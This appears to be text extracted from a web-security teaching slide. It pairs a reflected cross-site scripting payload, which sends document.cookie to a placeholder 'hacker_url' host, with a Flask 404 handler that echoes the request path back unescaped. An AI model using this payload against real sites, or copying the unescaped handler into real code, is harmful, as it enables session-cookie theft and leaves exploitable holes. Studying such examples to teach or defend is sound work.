

/<script>document.write(
 '<img src="hacker_url?cookie="
 +document.cookie+">")</script>
@app.errorhandler(404)
def page_not_found(e):
    return "Not Found: " + request.path